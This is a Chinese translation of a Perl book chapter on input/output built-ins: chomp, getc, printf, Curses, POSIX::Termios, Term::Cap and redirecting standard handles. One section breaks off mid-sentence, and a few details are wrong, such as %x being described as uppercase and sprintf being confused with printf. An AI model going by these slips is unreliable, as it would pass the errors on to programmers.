"说到输入和输出，"新手程序员说，"我正在从键盘读取字符，但它们总是带着换行符 \n，这不是很奇怪吗？" "并非如此，"你说，"这是 Perl 中读取键盘输入的标准方式。用户输入的所有内容，包括换行符，都会被返回。" "我怎样才能去掉换行符？"新手程序员问。"没问题，"你说，"使用 **chomp** 或 **chop** 就行。"

我们早在第 1 章就见过 **chomp** 和 **chop** 了，但现在是时候仔细看看了。**chomp** 函数从一个或多个字符串中移除行尾字符；如果没有指定任何字符串，该函数使用 **$_**。一般来说，**chomp** 的用法如下：

```
chomp VARIABLE
chomp LIST
chomp
```

**chomp** 函数返回从所有参数中移除的字符数。如果你对一个列表进行 **chomp**，每个元素都会被处理，但只返回最后一次 **chomp** 的值。这个函数通常用于移除文本输入末尾的换行符。

**chop** 函数移除一个或多个字符串的最后一个字符并返回该字符；如果没有指定字符串，**chop** 使用 **$_**：

```
chop VARIABLE
chop LIST
chop
```

下面的示例展示了 **chomp** 的使用。这里我让用户输入四个用回车键分隔的字符，然后在去除换行符后打印所形成的字符串：

```
print "Please type four characters...\n";

for (1 .. 4) {
    $char = <>;
    chomp $char;
    $word .= $char;
}

print "You typed: " , $word;
```

```
Please type four characters...
a
b
c
d
You typed: abcd
```

如果我没有去除换行符，由输入字符组成的字符串中仍然会包含换行符，如下所示：

```
print "Please type four characters...\n";

for (1 .. 4) {
    $char = <>;
    $word .= $char;
}

print "You typed: " , $word;
```

```
Please type four characters...
a
b
c
d
You typed: a
b
c
d
```

那么 **chop** 和 **chomp** 有什么区别呢？**chop** 函数只是移除字符串中的最后一个字符，而 **chomp** 移除预定义变量 $/ 中指定的字符（默认情况下为换行符）。请注意，使用 **chomp** 通常被认为比使用 **chop** 更安全，因为 **chomp** 只专门移除行尾字符。

## Curses 终端屏幕处理接口

你正在开发你的新文字处理器 SuperDuperText。但你只有一个问题：SuperDuperText 应该是一个全屏文字处理器，但当你检查 Perl 的终端操作例程时，你很难找到什么可用的。（请参阅本章后面关于 **Term** 包的介绍，例如主题"**Term::Cap** 定位光标以显示文本"。）"嗯，"你说，"那我如何与终端进行交互操作，比如高亮文本、移动光标等等呢？"

在 Unix 系统上，一种方法是使用 Perl 的 **Curses** 模块，它是 **Curses** 包的接口，**Curses** 是一个支持终端屏幕处理的大型包。Perl 的 **Curses** 模块只是 Unix **Curses** 包的接口，所以要使用这个模块，你需要知道如何使用该包。

当你使用 **Curses** 模块时，你以 **initscr** 函数开始操作，以 **endwin** 函数结束操作：

```
use Curses;

initscr;
    .
    .
    .
endwin;
```

你也可以以面向对象的方式使用 **Curses**，如下所示，我在屏幕上的 (20, 20) 位置显示消息 Hello from Perl!。（关于创建类和对象的详细信息，请参阅第 18 章。）请注意我使用了 **standout** 方法来强调文本：

```
use Curses;

$monitor = new Curses;
$monitor->standout();
$monitor->addstr(20, 20, 'Hello from Perl!');
$monitor->standend();
$monitor->refresh;
```

许多标准 **Curses** 函数都有变体，它们的区别在于增加了窗口参数或增加了两个用于先移动光标的坐标参数。例如，**addch** 函数有三个变体：**waddch**、**mvaddch** 和 **mvwaddch**。Perl 的 **Curses** 模块将所有这些变体封装在自己的 **addch** 函数中，它通过你传递的参数数量来判断你想使用哪个变体。用 Perl 的术语来说，**addch** 函数被称为*统一的*。

那么，Perl **Curses** 模块中有哪些可用的子程序呢？你可以在表 12.1 中找到它们，该表还显示了每个特定函数是否是统一的。

### 表 12.1  Perl Curses 子程序

| 名称 | 统一的？ | 名称 | 统一的？ |
|------|----------|------|----------|
| addch | 是 | delch | 是 |
| addchnstr | 是 | deleteln | 是 |
| addchstr | 是 | delwin | 是 |
| addnstr | 是 | derwin | 是 |
| addstr | 是 | doupdate | 否 |
| attroff | 是 | echo | 否 |
| attron | 是 | echochar | 是 |
| attrset | 是 | endwin | 否 |
| baudrate | 否 | erase | 是 |
| beep | 否 | erasechar | 否 |
| bkgd | 是 | flash | 否 |
| bkgdset | 是 | flushinp | 否 |
| border | 是 | flushok | 是 |
| box | 是 | getattrs | 是 |
| can_change_color | 否 | getbegyx | 是 |
| cbreak | 否 | getbkgd | 是 |
| clear | 是 | getcap | 否 |
| clearok | 是 | getch | 是 |
| clrtobot | 是 | getmaxyx | 是 |
| clrtoeol | 是 | getnstr | 是 |
| color_content | 否 | getparyx | 是 |
| COLOR_PAIR | 否 | getstr | 是 |
| copywin | 否 | gettmode | 否 |


# 第12章 内置函数：输入/输出

表12.1 Perl Curses子程序（续）。

| 名称 | 已统一？ | 名称 | 已统一？ |
|------|----------|------|----------|
| getyx | 是 | mvcur | 否 |
| halfdelay | 否 | mvwin | 是 |
| has_colors | 否 | newpad | 否 |
| has_ic | 否 | newwin | 否 |
| has_il | 否 | nl | 否 |
| hline | 是 | Nocbreak | 否 |
| idcok | 是 | Nodelay | 是 |
| idlok | 是 | Noecho | 否 |
| immedok | 是 | Nonl | 否 |
| inch | 是 | Noqiflush | 否 |
| inchstr | 是 | Noraw | 否 |
| instr | 是 | Notimeout | 是 |
| init_color | 否 | Notrefresh | 是 |
| init_pair | 否 | overlay | 否 |
| initscr | 否 | overwrite | 否 |
| innstr | 是 | pair_content | 否 |
| insch | 是 | PAIR_NUMBER | 否 |
| insdelln | 是 | pechochar | 否 |
| insertln | 是 | prefresh | 否 |
| insnstr | 是 | qiflush | 否 |
| insstr | 是 | raw | 否 |
| instr | 是 | refresh | 是 |
| intrflush | 是 | resetty | 否 |
| is_linetouched | 是 | savetty | 否 |
| is_wintouched | 是 | scrl | 是 |
| isendwin | 否 | scroll | 是 |
| keyname | 否 | scrollok | 是 |
| keypad | 是 | setscrreg | 是 |
| killchar | 否 | setterm | 否 |
| leaveok | 是 | slk_ | 否 |
| longname | 否 | slk_clear | 否 |
| meta | 是 | slk_init | 否 |
| move | 是 | slk_label | 否 |

表12.1 Perl Curses子程序（续）

| 名称 | 已统一？ | 名称 | 已统一？ |
|------|----------|------|----------|
| slk_refresh | 否 | timeout | 是 |
| slk_restore | 否 | touchline | 是 |
| slk_set | 否 | touchln | 是 |
| slk_touch | 否 | touchoverlap | 否 |
| standend | 是 | touchwin | 是 |
| standout | 是 | typeahead | 否 |
| start_color | 否 | unctrl | 否 |
| subpad | 否 | ungetch | 否 |
| subwin | 是 | vline | 是 |
| syncok | 是 |  |  |

## die 以错误退出

> “我一直在看你的代码，”编程正确性主管说，“我发现了一个你经常使用的有趣函数——**die** 函数。” “是的，”你说，“那是Perl结束程序并显示错误信息的方式。” “嗯，”主管说，“**die** 函数？在我看来这名字有点不吉利。”

我们最早在第5章见过 **die**。当你想因错误结束程序并显示错误信息时，你会使用 **die**。**die** 函数通常这样工作：

```
die LIST
```

此函数将 **LIST** 的值打印到 **STDERR** 并停止程序，返回 Perl 特殊变量 **$!** 的当前值。在 **eval** 语句内部，错误信息被放入特殊变量 **$@** 中，**eval** 语句结束。

在下一个例子中，我尝试打开一个只读文件并请求写入权限（你会在Perl中几乎总会看到这样在 **open** 语句末尾附加 **die** 语句）：

```
$filename = "file.dat";
open FILEHANDLE, ">$filename" or die "Cannot open $filename\n";
```

> *无法打开 file.dat*

你可以通过打印预定义变量 $! 中的错误信息来获得更具体的内容：

```
$filename = "file.dat";
open FILEHANDLE, ">$filename" or die $!;
```

> *Permission denied at opener.pl line 3.*

如你所见，代码被拒绝了打开只读文件进行写入的权限。无论在 Unix 版本还是 MS-DOS 版本的 Perl 中，你都会看到相同的 Perl 错误信息。

你通常可以使用操作系统特定的错误信息 **$^E** 来获取与你所在平台相关的更多信息。在 Unix 中，你会得到与刚才显示相同的错误信息，但在 MS-DOS 中，你会得到这样的信息：

```
$filename = "file.dat";
open FILEHANDLE, ">$filename" or die $^E;
```

> *Access is denied at opener.pl line 3.*

另请参阅本章前面的主题“**carp, cluck, croak, confess** 报告警告和错误”以及本章后面的“**warn** 显示警告”。

| 相关解决方案： | 找到页码： |
| --- | --- |
| 使用 **die** 语句 | 226 |
| **$^E** 操作系统特定的错误信息 | 436 |

## expect 控制其他应用程序

> “我有个大麻烦，”新手程序员说，“大老板削减了人手，所以现在我既要用数据库监控程序，又要做我正常的工作。麻烦的是这只是常规工作，但它占用了我大量的时间。” “嗯，”你说，“你可以使用 CPAN 的 **Expect** 模块来自动化与其他程序的交互。” NP（新手程序员）问：“哦，真的吗？” “是的，”你说，“但这不一定容易。”

使用 **Expect** 模块，你可以操作那些期望使用全屏和键盘工作的应用程序。具体来说，你可以向这些程序发送数据并等待返回数据（即，你*期望*数据）。要使用此模块，你还需要 CPAN 的另外两个模块：**IO::Pty** 和 **IO::Stty**。

要运行另一个程序，你使用 **Expect->spawn** 方法，而要等待另一个程序的输出，你使用 **Expect->expect** 方法。向另一个程序发送数据就像使用 **print** 方法一样简单。

但是请注意，使用 **Expect** 可能会变得复杂，但如果这是你唯一的选择，不妨试一试。

## getc 获取单个输入字符

新手程序员出现并说：“我有个问题，但不想打扰你。” “这可没阻止过你，”你说。 “你说得对，”NP说，“我想读取用户按键，但不想等到用户按行尾的Enter键。我真的只想看看用户是否按了方向键，而不想等待他或她输入整行。” “嗯，”你可以试试一些高级的 I/O 模块……” “那太复杂了，”NP说，“我就不能做点更简单的事吗？” 你问：“嗯，**getc** 怎么样？”

**getc** 函数从文件句柄返回下一个输入字符；如果你省略文件句柄，**getc** 从 **STDIN** 读取一个字符：

```
getc FILEHANDLE
getc
```

令许多程序员失望的是，除非你设置好你的系统，否则你无法使用 **getc** 来获取无缓冲（即，逐字符）的输入。通常，**getc** 会等到用户输入回车后才返回。

然而，你可以在许多 Unix 系统上关闭缓冲，如以下代码所示，它会在用户输入字符后立即读取并显示；系统调用在大多数 Unix 版本中关闭字符缓冲（你也可以尝试使用 **POSIX::setattr** 函数在某些系统上关闭缓冲）：

```
system "stty cbreak </dev/tty >&1";
print ">";
while (($char = getc) ne 'q') {
    print "\n";
    print "You typed $char\n>";
}
```

```
%perl immediate.pl
>a
You typed a
>b
You typed b
>c
You typed c
>q
%
```

你甚至可以处理方向键，比如新手程序员想处理的向上箭头键。在许多系统上，向上箭头键由转义序列 ^[[A 处理。（第一个字符 ^[ 是转义字符，也称为字符代码值 27。）所以，你可能需要执行多次 **getc** 来捕获这样的特殊键。看看这个捕获向上箭头的例子：

```
system "stty cbreak </dev/tty >&1";

print "Type an up arrow:";
$c1 = getc;
$c2 = getc;
$c3 = getc;

if ((ord($c1) == 27) && ($c2 eq '[') && ($c3 eq 'A')) {
    print "You typed an up arrow.";
} else {
    print "You did not type an up arrow.";
}

You typed an up arrow.
```

> 提示：许多终端上的标准方向键代码如下：向上箭头：^[[A；向下箭头：^[[B；向右箭头：^[[C；向左箭头：^[[D。

在 MS-DOS 中，除非你做一些非常底层的工作（例如，你可以用汇编语言从键盘缓冲区读取单个键），否则无法关闭命令行缓冲。所以，在 MS-DOS 中，**getc** 在用户完成输入行并按下 Enter 之前不会返回任何内容。不过，当按下 Enter 后，你可以使用 **getc** 从输入的行中逐个读取字符（这就是 **getc** 在 Unix 中的工作方式，除非你关闭命令行缓冲）。你也可以使用 **sysread(STDIN, $char, 1)** 来做同样的事情。

## 使用 HotKey.pm

现在，让我告诉你另一种获取单个按键的简单方法：使用 **HotKey.pm** 模块。这个模块实际上是一个 POSIX 演示模块，但你可以在 Perl 发行版文档中找到它（例如，在文件

## 记录错误

技术支持的人打来电话说：“一个程序员正在为非常有问题的代码而烦扰我们，我们甚至不知道从哪里开始。” “好吧，”你说，“你们能拿到错误日志文件吗？” “嗯，”他们说，“那怎么弄？” “只需将**STDERR**重定向到一个文件就行了，”你说。

许多Perl函数，如**warn**和**die**，默认情况下会写入**STDERR**，而不是**STDOUT**，因此如果你愿意，可以将这些错误发送到错误日志文件。在这个例子中，我将**STDERR**输出重定向到一个名为error.log的文件：

```
open(STDERR, ">error.log") || die "Can't redirect stderr to error log.";
print STDERR "There's a problem!";
```

当你运行这段代码时，控制台上不会显示任何内容，但error.log文件会被创建并包含以下文本：

*There's a problem!*

## POSIX::Termios 底层终端接口

新手程序员出现了，拖着长长的打印件，说道：“我想改变用户用来删除字符的字符。” “嗯，”你说，“你确定要那样做吗？” “当然，我确定，”NP（新手程序员）说，“这有可能吗？” “是的，”你说，“你可以使用**POSIX::Termios**模块。” NP说：“太好了，它是如何工作的？”

# 第12章 内置函数：I/O

使用**POSIX::Termios**模块，你可以操控终端在底层处理特殊字符、实现回车符映射等等。

> **注意：** *在Perl中，MS-DOS架构尚不支持POSIX::Termios。*

一个例子将有助于更清楚地理解这种用法。在这个例子中，我将把用于擦除字符和退出进程的字符（通常是Del键和^C）更改为，比如，**<**和**Q**。为此，我创建了一个名为**$termios**的新**termios**对象，并将当前终端属性加载到其中：

```
use POSIX qw(:termios_h);

$termios = POSIX::Termios->new;
$termios->getattr();
```

接下来，我通过设置**termios c_cc**字段（即控制字符字段）**VERASE**为**<**来更改Del键，并通过设置**termios c_cc**字段**VKILL**为**Q**来将kill字符更改为**Q**：

```
use POSIX qw(:termios_h);

$termios = POSIX::Termios->new;
$termios->getattr();
$termios->setcc(VERASE, ord('<'));
$termios->setcc(VKILL, ord('Q'));
$termios->setattr(1, TCSANOW);
```

剩下的就是让用户尝试这些新字符：

```
use POSIX qw(:termios_h);

$termios = POSIX::Termios->new;
$termios->getattr();
$termios->setcc(VERASE, ord('<'));
$termios->setcc(VKILL, ord('Q'));
$termios->setattr(1, TCSANOW);

print("Use < to erase and Q to quit.\n");
print ">";
while (defined($input = <STDIN>)) {
    print "Thank you for typing $input";
    print ">";
}
```

此时，<键的作用就像以前的Del键，而**Q**键的作用就像以前的^C。如你所见，**POSIX::Termios**模块让你能够在代码中实现一些非常底层的终端处理。

现在来看看细节。以下列表描述了**POSIX::Termios**模块中可用的方法及其功能：

-   **new** 创建一个新的**termios**对象。你使用这个对象来操作**POSIX::Termios**。示例：`$termios = POSIX::Termios->new;`。

-   **getattr** 通过文件号获取终端控制属性（可能的值有**TCSADRAIN**、**TCSANOW**、**TCCON**、**TCIOFLUSH**、**TCOFLUSH**、**TCION**、**TCIFLUSH**、**TCSAFLUSH**、**TCIOFF**和**TCOOFF**）；使用fileno函数来获取文件号。示例：获取**STDIN**的属性：`$termios->getattr();`；获取**STDOUT**的属性：`$termios->getattr(1);`。

-   **getcc** 从**termios**对象的**c_cc**字段（控制字符）获取一个值（可能的字段值有**VEOF**、**VEOL**、**VERASE**、**VINTR**、**VKILL**、**VQUIT**、**VSUSP**、**VSTART**、**VSTOP**、**VMIN**、**VTIME**和**NCCS**）。示例：`$value = $termios->getcc(1);`。

-   **getcflag** 获取**termios**对象的**c_cflag**字段（控制模式）（可能的字段值有**CLOCAL**、**CREAD**、**CSIZE**、**CS5**、**CS6**、**CS7**、**CS8**、**CSTOPB**、**HUPCL**、**PARENB**和**PARODD**）。示例：`$value = $termios->getcflag;`。

-   **getiflag** 获取**termios**对象的**c_iflag**字段（输入模式）（可能的字段值有**BRKINT**、**ICRNL**、**IGNBRK**、**IGNCR**、**IGNPAR**、**INLCR**、**INPCK**、**ISTRIP**、**IXOFF**、**IXON**和**PARMRK**）。示例：`$value = $termios->getiflag;`。

-   **getispeed** 获取输入波特率（可能的值有**B38400**、**B75**、**B200**、**B134**、**B300**、**B1800**、**B150**、**B0**、**B19200**、**B1200**、**B9600**、**B600**、**B4800**、**B50**、**B2400**和**B110**）。示例：`$value = $termios->getispeed;`。

-   **getlflag** 获取**termios**对象的**c_lflag**字段（本地模式）（可能的字段值有**ECHO**、**ECHOE**、**ECHOK**、**ECHONL**、**ICANON**、**IEXTEN**、**ISIG**、**NOFLSH**和**TOSTOP**）。示例：`$flag = $termios->getlflag;`。

-   **getoflag** 获取**termios**对象的**c_oflag**字段（输出模式）（可能的值是**OPOST**）。示例：`$flag = $termios->getoflag;`。

-   **getospeed** 获取输出波特率（可能的值有**B38400**、**B75**、**B200**、**B134**、**B300**、**B1800**、**B150**、**B0**、**B19200**、**B1200**、**B9600**、**B600**、**B4800**、**B50**、**B2400**和**B110**）。示例：`$value = $termios->getospeed;`。

-   **setattr** 设置终端控制属性（可能的值有**TCSADRAIN**、**TCSANOW**、**TCCON**、**TCIOFLUSH**、**TCOFLUSH**、**TCION**、**TCIFLUSH**、**TCSAFLUSH**、**TCIOFF**和**TCOOFF**）。示例：`$termios->setattr(1, &POSIX::TCIOFLUSH);`。

-   **setcc** 在**termios**对象的**c_cc**字段（控制字符）中设置一个值（可能的字段值有**VEOF**、**VEOL**、**VERASE**、**VINTR**、**VKILL**、**VQUIT**、**VSUSP**、**VSTART**、**VSTOP**、**VMIN**、**VTIME**和**NCCS**）。示例：`$termios->setcc(&POSIX::VQUIT, 1);`。（注意**c_cc**字段是一个数组，因此你必须指定一个索引。）

-   **setcflag** 设置**termios**对象的**c_cflag**字段（控制模式）（可能的字段值有**CLOCAL**、**CREAD**、**CSIZE**、**CS5**、**CS6**、**CS7**、**CS8**、**CSTOPB**、**HUPCL**、**PARENB**和**PARODD**）。示例：`$termios->setcflag(&POSIX::CREAD);`

-   **setiflag** 设置**termios**对象的**c_iflag**字段（输入模式）（可能的字段值有**BRKINT**、**ICRNL**、**IGNBRK**、**IGNCR**、**IGNPAR**、**INLCR**、**INPCK**、**ISTRIP**、**IXOFF**、**IXON**和**PARMRK**）。示例：`$termios->setiflag(&POSIX::IGNBRK);`

-   **setispeed** 设置输入波特率（可能的值有**B38400**、**B75**、**B200**、**B134**、**B300**、**B1800**、**B150**、**B0**、**B19200**、**B1200**、**B9600**、**B600**、**B4800**、**B50**、**B2400**和**B110**）。示例：`$termios->setispeed(&POSIX::B38400);`

-   **setlflag** 设置**termios**对象的**c_lflag**字段（本地模式）（可能的字段值有**ECHO**、**ECHOE**、**ECHOK**、**ECHONL**、**ICANON**、**IEXTEN**、**ISIG**、**NOFLSH**和**TOSTOP**）。示例：`$termios->setlflag(&POSIX::ECHOK);`

-   **setoflag** 设置**termios**对象的**c_oflag**字段（输出模式）（可能的值是**OPOST**）。示例：`$termios->setoflag(&POSIX::OPOST);`

-   **setospeed** 设置输出波特率（可能的值有**B38400**、**B75**、**B200**、**B134**、**B300**、**B1800**、**B150**、**B0**、**B19200**、**B1200**、**B9600**、**B600**、**B4800**、**B50**、**B2400**和**B110**）。示例：`$termios->setospeed(&POSIX::B38400);`

## print 打印列表数据

我们在本书中已经多次看到**print**，并且对它相当熟悉，但在关于I/O的章节中，我们很难忽略它。我将在这里简要介绍这个重要函数；更多信息请参阅第1章。

你使用**print**函数将一个列表打印到文件句柄。如果未指定文件句柄，**print**会使用**STDOUT**或默认的输出通道。（要将默认输出通道设置为**STDOUT**以外的其他值，你需要使用**select**函数。）如果未指定要打印的列表，**print**会使用默认变量`$_`。

通常，你像这样使用**print**：

print 文件句柄 列表
print 列表
print

**print** 函数在成功执行时返回 true。虽然到目前为止我们只用它向 **STDOUT** 输出，但你也可以用它向其他文件句柄打印，正如我们将在下一章看到的那样。

看看这个 **print** 的实际应用示例：

```
$a = "Hello"; $b = " to"; $c = " you";
$d = " from"; $e = " Perl!";
print $a, $b, $c, $d, $e;
```

*Hello to you from Perl!*

请注意，**print** 会使用 **$\**（默认为空字符串）来分隔它打印的列表项。

| 相关解决方案： | 找到于页： |
| --- | --- |
| 基础技能：使用 **print** 函数 | 31 |
| **$\** 输出记录分隔符 | 433 |
| **select** 设置默认输出文件句柄 | 567 |

## **printf** 打印格式化的列表数据

初学编程的程序员打电话来说：“我就是搞不懂怎么用 Perl 的格式来格式化数字。”“没问题，”你说，“改用 **printf** 函数来打印格式化文本吧。”“嘿，”那位新手说，“听起来很简单。它是怎么工作的？”

**printf** 函数将格式化数据打印到一个文件句柄；如果省略文件句柄，**printf** 将使用 **STDOUT**。通常，你可以像这样使用 **printf**：

```
printf 文件句柄 格式, 列表
printf 格式, 列表
```

**printf** 函数与 **sprintf** 类似，区别在于它将格式化数据打印到文件句柄。（实际上，**sprintf** 等同于 `print 文件句柄 sprintf(格式, 列表)`，只是 **print** 会考虑 **$\**，即输出记录分隔符）。要打印的数据在 **LIST**（列表）中给出。如果你的代码与区域设置相关（即你在代码中使用了 `use locale`），那么小数点字符将按照 *LC_NUMERIC* 区域设置的值进行格式化。

在这种情况下，**FORMAT**（格式）是一个字符串，它指示你希望如何格式化 **LIST** 中的项目。通常，对于 **LIST** 中的每个元素，你在 **FORMAT** 中使用一个转换说明符。你可以在 **FORMAT** 中使用以下转换说明符：

- %%—百分号
- %c—给定数值对应的字符
- %d—有符号整数，十进制
- %E—浮点数，科学计数法（大写 E）
- %e—类似 %E，但使用小写 e
- %f—浮点数，定点十进制表示法
- %G—浮点数，使用 %e 或 %f 中较短者（大写 G）
- %g—类似 %G，但使用小写 g
- %n—下一个变量输出的字符数
- %o—无符号整数，八进制
- %p—指针（以十六进制显示值的地址）
- %s—字符串
- %u—无符号整数，十进制
- %X—无符号整数，十六进制（大写）
- %x—类似 %X，但使用大写字母

为了向后兼容，Perl 也允许这些转换说明符：

- %D—等同于 %ld
- %F—等同于 %f
- %i—等同于 %d
- %O—等同于 %lo
- %U—等同于 %lu

此外，Perl 允许在 % 和转换说明符之间使用这些标志：

- -—在字段内左对齐
- #—为非零八进制数添加前缀 0，为非零十六进制数添加前缀 0x
- *.number*—为浮点值设置小数点后的位数，为字符串设置最大长度，或为整数设置最小长度
- +—为正数添加加号前缀
- 0—用零而不是空格进行右对齐填充
- h—将整数解释为 C 类型的 short 或 unsigned short
- **l**—将整数解释为 C 类型的 long 或 unsigned long
- ***number***—设置最小字段宽度
- ***space***—为空格添加正数前缀

以及这个 Perl 特有的标志：

- **V**—将整数解释为 Perl 的标准整数类型

现在，让我们看一些使用 **printf** 的例子：

```
$value = 1234.56789;
printf "%.4f\n", $value;
```

*1234.5679*

```
printf "%.5f\n", $value;
```

*1234.56789*

```
printf "%6.6f\n", $value;
```

*1234.567890*

```
printf "%+.4e\n", $value;
```

*+1.2346e+003*

## 在控制台彩色打印

初学编程的程序员说：“用户都忽略了我错误消息。我想用红色打印错误消息，然后给用户一个电击。”“嗯，”你说，“你可以用红色打印错误消息。”新手问：“怎么弄？”

如果你使用的是兼容 ANSI 的终端，并且知道如何使用颜色命令序列，你可以使用来自 CPAN 的 **Term::ANSIColor** 模块。这个模块允许你发送转义序列，以更改此类终端中使用的文本颜色。

这个例子展示了如何用红色打印错误消息：

```
use Term::ANSIColor;
print color("red"), "That is an error!\n", color("reset");
```

## 使用尖括号运算符 <> 读取输入

最受欢迎的 I/O 运算符是尖括号运算符，<>。你可以在第 4 章找到详细信息，但为了完整性，我也在这里列出这个运算符。

你可以使用 <> 结构从命令行读取输入，如下所示：

```
while(<>) {
    print;
}
```

这种形式，<>，是 <STDIN> 的简写，其中 STDIN 是标准输入文件句柄。你通常使用 < 和 > 从文件句柄读取，就像这样：<文件句柄>。我们将在下一章看到更多关于此用法的细节。

当你使用 <> 时，Perl 首先检查 @ARGV 数组，如果该数组不为空，Perl 将其内容作为要打开并读取的文件名列表进行处理。例如，假设你将此代码放在文件 argv.pl 中：

```
while(<>) {
    print;
}
```

你可以使用以下脚本来读取并显示其自身代码：

```
%perl argv.pl argv.pl
```

```
while(<>) {
    print;
}
```

另一方面，如果 @ARGV 为空，$ARGV[0] 会被设置为 "-"，打开它时会使 Perl 从 STDIN 读取。这就是你最终使用 <> 读取键入输入的方式。

还要注意，如果你在 **while** 或 **for** (;;) 循环的条件部分使用 <>（并且仅限这些循环），返回值会自动赋值给变量 $_。另外，请注意，赋值给 $_ 的值会被检查是否已定义；进行此测试是为了避免处理那些否则会被 Perl 视为假的行。

| 相关解决方案： | 找到于页： |
|---|---|
| 文件 I/O 运算符：<> | 179 |

## 重定向 STDIN, STDOUT, 和 STDERR

> “我接手了很多从 **STDIN** 读取的代码，”初学编程的程序员说，“但这类命令太常规了，我希望我能自动化这个过程，而且我不想用 **Expect**。”“嗯，”你说，“如果你能访问代码本身，你可以将 **STDIN** 重定向到从文件读取，这样你就不必自己输入所有内容了。代码会认为它正在从键盘读取。”“太好了，”新手说，“多告诉我一些！”

你可以用多种方式在 Perl 中重定向 I/O，作为重定向工作方式的示例，我将写几个例子，从一个将 **STDOUT** 重定向到文件的开始。

### 将 STDOUT 重定向到文件

要将 **STDOUT** 重定向到文件，我首先让用户知道正在发生什么：

```
print "Redirecting STDOUT...\n";
```

*Redirecting STDOUT...*

然后，我使用 **open** 函数创建一个 **STDOUT** 的备份副本，称为 **STDOUTBACKUP**（我们将在下一章看到，**>** 表示我打算写入 **STDOUT**，而 **&** 表示 **STDOUT** 是一个文件句柄，而不是文件名）：

```
open(STDOUTBACKUP, ">&STDOUT");
```

要将 **STDOUT** 重定向到文件，我只需再次使用 **open**，将 **STDOUT** 与对应文件的文件句柄关联起来：

```
open(STDOUT, ">redirect.txt") or die "Problem redirecting STDOUT.";
```

现在，当我向 **STDOUT** 发送输出时，它实际上会写入文件，这就是此文本被发送到的地方：

```
print STDOUT "This text was sent to STDOUT.";
```

*This text was sent to STDOUT.*

我可以通过先再次关闭它，然后使用我之前制作的备份副本来恢复 **STDOUT**：

```
close(STDOUT);

open(STDOUT, ">&STDOUTBACKUP");
print "STDOUT is back!\n";
```

*STDOUT is back!*

就是这样。现在我已经将 **STDOUT** 重定向到文件，然后恢复了它。通常，在控制台上工作时 **STDERR** 与 **STDOUT** 相同，但有时它们不同（例如，当你在某些保留错误日志的服务器上使用 CGI 脚本时）。如何将 **STDERR** 重定向到 **STDOUT**（或将任何文件句柄重定向到另一个文件句柄）？我接下来将看看这个问题。

### 将 **STDERR** 重定向到 **STDOUT**

要将 **STDERR** 重定向到 **STDOUT**，我首先创建一个 **STDERR** 的备份副本，命名为 **STDERRBACKUP**：

```
open(STDERRBACKUP, ">&STDERR");
```

然后，我只需使用 **open** 语句将 **STDOUT** 的副本放入 **STDERR**，就像这样；当我向 **STDERR** 打印时，文本会发送到 **STDOUT** 并出现在控制台上：

```
open(STDERR, ">&STDOUT") or die "Problem redirecting STDERR.";
print STDERR "This text was sent to STDERR.\n";
```

> *This text was sent to STDERR.*

要恢复 **STDERR**，我只需关闭重定向的版本，然后使用 **open** 和 **STDERR** 的备份副本，像这样：

```
close(STDERR);

open(STDERR, ">&STDERRBACKUP");
print "STDERR is back!\n";
```

> *STDERR is back!*

重定向 **STDIN** 最常见的原因之一是从文件读取输入而不是从控制台读取，而且，为了初学编程的程序员着想，我也将在这里探讨这个问题。

### 从文件获取 **STDIN**

你可能有一个命令或数据文件，你希望脚本像在控制台上键入一样读取它，将 **STDIN** 重定向到从文件读取非常容易。在这个使用 redirect.pl 的例子中，代码打开它自己的源文件并打印它。为此，我打开 redirect.pl 并给它文件句柄 **STDIN**：

```
open(STDIN, "<redirect.pl") || die "Problem redirecting STDIN.";
```


现在，我只需像往常一样从**STDIN**读取，输入将来自我已打开的文件：

```
while(<>) {
    print;
}

open(STDIN, "<redirect.pl") || die "Problem redirecting STDIN.";

while(<>) {
    print;
}
```

就是这样。如果你将一个文件句柄命名为**STDIN**，它就是**STDIN**。

关于重定向I/O过程的更多细节，请查看第13章（涵盖文件处理）以及CD-ROM上的第e1章，其中我们介绍了如何使用**管道**（MS-DOS中尚未支持）。

## Term::Cap 清屏

你正在开发你的新文字处理器SuperDuperText，现在是时候实现屏幕处理了。首先要做的是清屏，但该怎么做呢？

你可以使用**Term::Cap**模块（MS-DOS中不可用）。要使用**Term::Cap**模块的方法，你首先调用**Term::Cap->Tgetent**来返回一个对象，然后使用该对象的方法。（有关对象和方法的更多细节，请参见第18章。）用于清除监视器屏幕的方法是**Tputs**。

我现在将这个模块投入使用。你需要传递给**Tgetent**的项目之一是终端的速度，你可以从**POSIX::Termios**模块获取，所以我将从创建一个新的**POSIX::Termios**对象开始：

```
use POSIX;
use Term::Cap;

$termios = POSIX::Termios->new();
```

现在，我这样获取监视器的速度：

```
$termios = POSIX::Termios->new();
$termios->getattr;
$speed = $termios->getospeed;
```

此时，我准备好调用**Tgetent**来创建一个**Term::Cap**对象，并调用**Tputs**来清屏，方式如下：

```
use POSIX;
use Term::Cap;

$termios = POSIX::Termios->new();
$termios->getattr;
$speed = $termios->getospeed;

$termcap = Term::Cap->Tgetent({TERM => undef, OSPEED => $speed });
$termcap->Tputs('cl', 1, STDOUT);
```

就是这样。现在，监视器屏幕已清除。

## Term::Cap 将光标定位以显示文本

既然你已经能够在你的新文字处理器程序SuperDuperText中清屏，是时候显示要编辑的文本并让用户在屏幕上移动了。那么，该怎么做呢？

你可以使用**Term::Cap**模块的**Tgoto**方法将光标移动到任何你想要的位置，所以我将在这里介绍它。

在这种情况下，我将光标移动到第5行、第40列，并在控制台上打印单词“Perl”。使用**Term**和**POSIX**模块的函数，我获取终端的**termcap**对象（我使用**POSIX**模块来查找终端的输出速度，如前所述）：

```
use POSIX;
use Term::Cap;

$termios = POSIX::Termios->new;
$termios->getattr;
$speed = $termios->getospeed;

$termcap = Term::Cap->Tgetent ({TERM => undef, OSPEED => $speed });
```

现在，我使用**$termcap**通过**Tputs**清屏，并使用**Tgoto**将光标放置在我想要的位置：

```
use POSIX;
use Term::Cap;

$termios = POSIX::Termios->new;
$termios->getattr;
$speed = $termios->getospeed;

$termcap = Term::Cap->Tgetent ({TERM => undef, OSPEED => $speed });
$termcap->Tputs('cl', 1, *STDOUT);
$termcap->Tgoto('cm', 40, 5, *STDOUT);
```

剩下的就是显示文本。这很简单。只需使用**print**：

```
use POSIX;
use Term::Cap;

$termios = POSIX::Termios->new;
$termios->getattr;
$speed = $termios->getospeed;

$termcap = Term::Cap->Tgetent ({TERM => undef, OSPEED => $speed });
$termcap->Tputs('cl', 1, *STDOUT);
$termcap->Tgoto('cm', 40, 5, *STDOUT);

print "Perl";
```

就是这样。现在，光标移动到位置（5, 40），单词“Perl”就出现在那里。

